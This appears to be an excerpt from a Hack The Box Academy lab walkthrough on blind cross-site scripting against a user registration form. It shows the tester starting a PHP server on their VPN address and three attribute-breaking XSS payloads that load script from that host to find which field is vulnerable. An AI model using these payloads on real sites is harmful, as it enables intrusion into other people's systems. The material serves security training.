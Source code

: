 
![Firefox - User Registration Attempt 2](./assets/screenshots/cross_site_scripting_firefox_user_registration_attempt_2.png)

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[/tmp/tmpserver]
└──╼ [★]$ ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.15.8  netmask 255.255.254.0  destination 10.10.15.8

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[~]
└──╼ [★]$ mkdir /tmp/tmpserver

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[~]
└──╼ [★]$ cd /tmp/tmpserver

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-45hkc2kudt]─[/tmp/tmpserver]
└──╼ [★]$ sudo php -S 0.0.0.0:8000

[Fri May 30 05:12:51 2025] PHP 8.2.26 Development Server (http://0.0.0.0:8000) started

[CONTINUE]
```

```javascript
"><script src=http://10.10.15.8:8000/fullname>

"><script src=http://10.10.15.8:8000/username>

"><script src=http://10.10.15.8:8000/imgurl>
```

![Burp Suite - XSS Discovery 1](./assets/screenshots/cross_site_scripting_burpsuite_xss_discovery_1.png)
